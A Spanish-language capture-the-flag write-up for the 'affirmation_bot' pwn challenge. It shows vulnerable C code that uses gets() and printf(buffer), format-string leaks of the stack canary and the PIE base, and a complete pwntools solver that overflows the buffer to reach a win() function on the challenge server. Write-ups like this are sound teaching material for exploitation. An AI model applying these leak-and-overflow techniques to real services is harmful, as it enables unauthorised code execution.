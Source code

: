 En este ejercicio nos dan un binario y su código fuente.

```c
checksec
File:     /home/ub1cu0/Desktop/wwctf/affirmation_bot/affirmationbot
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

Vamos a ejecutar el programa:

```c
./affirmationbot
Tell me whats on your mind...
> hola
You said: hola
Affirmation Bot says: Spot on!
> adios
You said: adios
Affirmation Bot says: That's the best idea I've heard all day!
```

Como podemos ver parece que estamos en un bucle en donde nos devuelven nuestro input junto con un mensaje motivador. Vamos a comprobarlo en el código:

```c
while(1) {
    affirm();
}
```

```c
void affirm() {
    uint8_t buffer[128] = {0};
    printf("> ");
    gets(buffer);
    printf("You said: ");
    printf(buffer);
    printf("\nAffirmation Bot says: ");
    int index = rand() % 11;
    printf("%s\n", affirmations[index]);
    fflush(stdout);
}
```

La función affirm se ejecuta en bucle. Podemos ver también un `gets` sin especificar tamaño y un `printf` sin especificar el tipo de dato con lo cual tenemos un buffer overflow y un format strings. También hay una función win:

```c
void win() {
    uint8_t flag_buffer[128] = {0};
    int fd = open("flag.txt", O_RDONLY);
    read(fd, flag_buffer, sizeof(flag_buffer));
    puts(flag_buffer);
    close(fd);
}
```

Como tenemos `PIE` y `Canary` activados tenemos que hacer lo siguiente:

<figure><img src="/pwn/img/affirmation-bot.png" alt=""><figcaption></figcaption></figure>

Para hacer un leak del canary podemos mandar muchas `%p` para que nos vaya devolviendo el contenido del stack en forma de punteros y intentar encontrar el valor del canary. El canary siempre acaba por `00` para que el programa sepa donde tiene que acabar de leer el canary. Yo ya he hecho un fuzzing de muchas posiciones y he encontrado el siguiente valor:

```c
> %47$p // Posición 47
You said: 0xf2acbd7b61d92e00
```

Tiene buena pinta, pero como lo comprobamos? Podemos usar `telescope` para verlo, el canary suele estar después del rbp:

```c
pwndbg> telescope $rsp 30  // Mostramos los 30 siguientes elementos antes del rsp
00:0000│ rsp 0x7fffffffdbd0 ◂— 1
01:0008│-098 0x7fffffffdbd8 ◂— 0x6f7e388d2
02:0010│-090 0x7fffffffdbe0 ◂— 0x7024373425
03:0018│-088 0x7fffffffdbe8 ◂— 0
... ↓        15 skipped
13:0098│-008 0x7fffffffdc68 ◂— 0xf2acbd7b61d92e00 // Aquí!
14:00a0│ rbp 0x7fffffffdc70 —▸ 0x7fffffffdc80 ◂— 1
```

Es el mismo! Ya sabemos que ese es el valor del canary. Ahora tenemos que hacer un leak del `PIE`. Para descubrir la dirección base del binario tenemos que primero hacer un leak de una instrucción del programa, descubrir su offset con respecto a la base del binario, y una vez sabemos el offset podemos ya calcularlo en nuestro solver final.

```c
Offset = Dirección del binario leakeada - Piebase
```

Con `piebase` podemos sacar la dirección del binario en local. Ahora podemos fuzzear con muchos `%p` para intentar encontrar una, yo he encontrado esta:

```c
pwndbg> x 0x55555555547c 
0x55555555547c <main>: 0x59058b48e5894855
```

```c
pwndbg> piebase
Calculated VA from /home/ub1cu0/Desktop/wwctf/affirmation_bot/affirmationbot = 0x555555554000
pwndbg> x 0x55555555547c - 0x555555554000
0x147c:	Cannot access memory at address 0x147c // Este es el offset
```

Ahora que tenemos todo lo necesario podemos montar el solver:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./affirmationbot_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b affirm
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("chal.wwctf.com", 4001)

def main():
    io = conn()
    offset = 136  # Esto podemos sacarlo mirando el código y probando a ver si crashea o no
    padding = 8   # para saltar el RBP (queremos llegar a la dirección de retorno, la cual está después del rbp)
    io.sendlineafter(b'> ', '%47$p')  # Leak del Canary
    linea = io.recvline().strip().decode()
    canary = int(linea.split("0x")[1], 16)
    log.success(f'Canary: {hex(canary)}')
    io.sendlineafter(b'> ', '%37$p') # Leak del PIE, en remoto puede variar, si no va probar posiciones cercanas al que va en local
    leaked_function_line = io.recvline().strip().decode()
    leaked_function = int(leaked_function_line.split("0x")[1], 16)
    
    exe.address = leaked_function - 0x147c
    log.success(f'Base Address: {hex(exe.address)}')
    
    payload = flat({
        offset: [
            canary,
            b'A' * padding,
            exe.symbols.win
        ]
    })

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```

Gracias por leer.
